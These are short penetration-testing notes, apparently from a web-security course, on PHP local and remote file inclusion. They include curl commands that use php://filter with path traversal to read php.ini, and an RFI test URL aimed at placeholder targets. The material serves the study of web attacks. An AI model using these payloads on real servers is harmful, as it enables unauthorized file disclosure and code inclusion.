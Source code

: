 

allow_url_include is needed for various LFI attacks and all RFI attacks

We need to check for allow_url_include

Determine if allow_url_include is enabled (X.Y for php version)
```
/etc/php/X.Y/apache2/php.ini (Apache)
/etc/php/X.Y/fpm/php.ini (Nginx)
```

Reading config file with curl
```shell-session
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini" (Apache)

curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/X.Y/fpm/php.ini"
```


At first, `we should always start by trying to include a local URL` to ensure our attempt does not get blocked by a firewall or other security measures. So, let's use (`http://127.0.0.1:80/index.php`) as our input string and see if it gets included

Testing for RFI with a local file
```http
http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php
```

